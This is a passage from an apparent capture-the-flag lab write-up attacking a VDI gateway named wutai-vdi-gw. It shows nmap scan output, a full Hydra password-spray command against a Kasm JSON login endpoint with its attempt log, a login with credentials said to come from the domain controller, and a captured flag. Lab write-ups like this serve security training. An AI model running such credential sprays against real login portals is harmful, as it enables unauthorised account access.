

And laslty, this is the VDI login on the page:

```bash
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9a:a5:ac:e6:b0:46:8d:d2:24:f7:33:c3:ec:9f:14:bb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBL3QYz4aZ2JkAZGNJeNy94LKyMYM+ic7soYWQeQ6+VGX8ITvWVWtNBonRMl8xfm6wOuYBC+eU9y/nzfgHXWNX9U=
|   256 d8:74:a8:05:04:19:6d:d8:74:f9:30:9d:ae:05:f4:df (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIK/qP6CibCG23Cy7+ivlRe2oQXfum2HKGjZKI4uaZeaQ
443/tcp open  ssl/http syn-ack ttl 62 nginx
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Supported Methods: GET HEAD
| ssl-cert: Subject: commonName=wutai-vdi-gw/organizationName=None/stateOrProvinceName=VA/countryName=US/organizationalUnitName=DoFu/localityName=None/emailAddress=none@none.none
| Issuer: commonName=wutai-vdi-gw/organizationName=None/stateOrProvinceName=VA/countryName=US/organizationalUnitName=DoFu/localityName=None/emailAddress=none@none.none
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-03-10T15:01:48
| Not valid after:  2028-03-08T15:01:48
| MD5:     cb41 82f3 03f9 4d5d 1a7e 1727 dc81 cac1
| SHA-1:   21f2 33b0 0846 f2d1 5853 c5c4 4366 de94 3774 a7f1
| SHA-256: a579 ecc9 7870 dc87 d19e 9f37 f840 a029 c5d8 406d 7389 a6f4 83e4 19eb 39f5 933b
| -----BEGIN CERTIFICATE-----
| MIID2zCCAsOgAwIBAgIUHtMlP/D54ypWpXaokL6gz4VFmWkwDQYJKoZIhvcNAQEL
| BQAwfTELMAkGA1UEBhMCVVMxCzAJBgNVBAgMAlZBMQ0wCwYDVQQHDAROb25lMQ0w
| CwYDVQQKDAROb25lMQ0wCwYDVQQLDAREb0Z1MRUwEwYDVQQDDAx3dXRhaS12ZGkt
| Z3cxHTAbBgkqhkiG9w0BCQEWDm5vbmVAbm9uZS5ub25lMB4XDTIzMDMxMDE1MDE0
| OFoXDTI4MDMwODE1MDE0OFowfTELMAkGA1UEBhMCVVMxCzAJBgNVBAgMAlZBMQ0w
| CwYDVQQHDAROb25lMQ0wCwYDVQQKDAROb25lMQ0wCwYDVQQLDAREb0Z1MRUwEwYD
| VQQDDAx3dXRhaS12ZGktZ3cxHTAbBgkqhkiG9w0BCQEWDm5vbmVAbm9uZS5ub25l
| MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA5lSZMXTDldBRJE51sxB/
| uR9cVmh4/aIj4IH44zcymAPvrNeBWs4nySaVx9jxul6OfyTcNOM3/AWi/d/DA+nx
| mTn+H35mWV6QX81356gCbbJrVmP2tQC6q9dfn0l7D2E64PCH4MO/PA25TmEs6rGi
| P57AvGgrltg4wUJGbJJP8EMoZTxagsV+J6txDqAcYmhk17OSlzQLSMN4cwRUTzYD
| dRchmQR4PtcaZU+ybiwiELs+/xX0vlBrNwTCkUilqDa23NNmu3SzjEVHmNKa5WlJ
| cWg/rRSFJ8TogZsCmCHhLX08gckqSpjF4SehbPRmNOSEo+hufSUtbNsXFldVkHBG
| pwIDAQABo1MwUTAdBgNVHQ4EFgQUd1ly81+hDgaR+PLyIIAL5gzLfk4wHwYDVR0j
| BBgwFoAUd1ly81+hDgaR+PLyIIAL5gzLfk4wDwYDVR0TAQH/BAUwAwEB/zANBgkq
| hkiG9w0BAQsFAAOCAQEAAfoVKBVRgBjwWcCCKFXS23UXjNNRpDQG1mTRmuXJlvsD
| guJwk+ThWcEidRmdu+VEtMrXq0QoB2yP5QG60wFH1aUZ/Yi02s4h8rjkC+Bt4hpV
| pZj5MPbZFzCi0a7a4TtybluV3g2Kzs2xv8vNRZXYGqJyGcz1sCF6luXzUURASInl
| unGi4GK3jw1tuI29hpE3ElGM0zh8mVdHVIiOTtTB1Dj0ePbtCrIesixW7hHicUup
| mzNV27bmQVXc7MuaC65PF0qQ1ceCdQeWcFFfwfD3CCn5n2UXWQdQybOLzPhBMhlw
| vGM8WlHgcmo6M/7QTXP9uHTKH4/CnZGsjQ6iHPLduA==
|_-----END CERTIFICATE-----
|_http-title: Site doesn't have a title (text/html).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
TCP/IP fingerprint:
OS:SCAN(V=7.98%E=4%D=3/27%OT=22%CT=%CU=42403%PV=Y%DS=2%DC=T%G=N%TM=69C65870
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M552ST11NW7%O2=M552ST11NW7%O3=M552NNT11NW7%O4=M552ST11NW7%O5=M552ST11
OS:NW7%O6=M552ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M552NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%R
OS:UD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 19.020 days (since Sun Mar  8 10:44:48 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

# KASM

Here I tried to perform a password spray of common passwords but I am not able to find anything so far:


```bash
─$ hydra -L kasm_users.txt -P kasm_passwords.txt wutai-vdi-gw https-post-form "/api/authenticate:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:H=Content-Type: application/json:F=Denied" -VVV
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-03-27 12:43:40
[INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
[DATA] max 16 tasks per 1 server, overall 16 tasks, 5100 login tries (l:300/p:17), ~319 tries per task
[DATA] attacking http-post-forms://wutai-vdi-gw:443/api/authenticate:{"username"\:"^USER^","password"\:"^PASS^"}:H=Content-Type: application/json:F=Denied
[ATTEMPT] target wutai-vdi-gw - login "Katie.Shaw@work.junon.vl" - pass "Wutai2023!" - 1 of 5100 [child 0] (0/0)
[ATTEMPT] target wutai-vdi-gw - login "Katie.Shaw@work.junon.vl" - pass "Wutai2024!" - 2 of 5100 [child 1] (0/0)
[ATTEMPT] target wutai-vdi-gw - login "Katie.Shaw@work.junon.vl" - pass "Wutai2025!" - 3 of 5100 [child 2] (0/0)
[ATTEMPT] target wutai-vdi-gw - login "Katie.Shaw@work.junon.vl" - pass "Wutai2026!" - 4 of 5100 [child 3] (0/0)
[ATTEMPT] target wutai-vdi-gw - login "Katie.Shaw@work.junon.vl" - pass "Junon2023!" - 5 of 5100 [child 4] (0/0)
[ATTEMPT] target wutai-vdi-gw - login "Katie.Shaw@work.junon.vl" - pass "Junon2024!" - 6 of 5100 [child 5] (0/0)

```

Now with the credentials obtained from Roger Ball from the DC I can login into the VDI:



And obtain the first flag:

```bash
PS C:\> cat .\flag.txt
WUTAI{6e64868c01f700f2bb89b66176df3721}
PS C:\>


```